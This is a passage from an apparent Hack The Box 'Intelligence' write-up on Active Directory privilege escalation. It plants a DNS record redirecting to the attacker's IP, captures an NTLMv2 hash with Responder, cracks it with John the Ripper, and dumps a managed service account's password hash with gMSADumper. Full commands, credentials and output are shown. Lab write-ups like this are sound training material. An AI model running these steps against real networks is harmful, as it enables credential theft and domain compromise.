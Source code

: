 Based on the permission _ReadGMSAPassword_, this user is a **Group Managed Service Account**, which is a special type of object where the password is managed and automatically changed by Domain Controllers.
The two users in the _ITSupport_ group are _Ted.Graves_ and _Laura.Lee_, so these should be marked as _High Value Targets_.

## Privilege Escalation

The PowerShell script from before checks for DNS entries starting with _"web"_ and in **Active Directory** every user can create domain entries.
It could run automatically and connect to the DNS entries it is checking.

Creating a domain entry with **dnstool.py** from the [Krbrelayx toolkit](https://github.com/dirkjanm/krbrelayx):
```
python3 krbrelayx/dnstool.py -u 'intelligence\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r webtest.intelligence.htb -a add -t A -d 10.10.14.7 10.10.10.248
```

After a while, the listener on my IP and port 80 receives a response from the box:
```
nc -lvnp 80

Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.248.
Ncat: Connection from 10.10.10.248:61778.
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1852
Host: webtest
```

Using **Responder** to steal **NTMLv2 hash**:
```
responder -I tun0
```
```
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:69c91fe390291bb1(...)
```

Cracking the NTLMv2 hash with **JohnTheRipper**:
```
john ted_graves.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password can get validated:
```
crackmapexec smb 10.10.10.248 -u ted.graves -p 'Mr.Teddy'
```

With this user it is possible to dump the credentials of the **Group Managed Service Account** _SVC_INT_ with the tool [gMSADumper](https://github.com/micahvandeusen/gMSADumper):
```
python3 /opt/gMSADumper/gMSADumper.py -u 'ted.graves' -p 'Mr.Teddy' -d intelligence.htb
```
```
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::4b18bc2b883607c026d27bf526bcb3d4
```
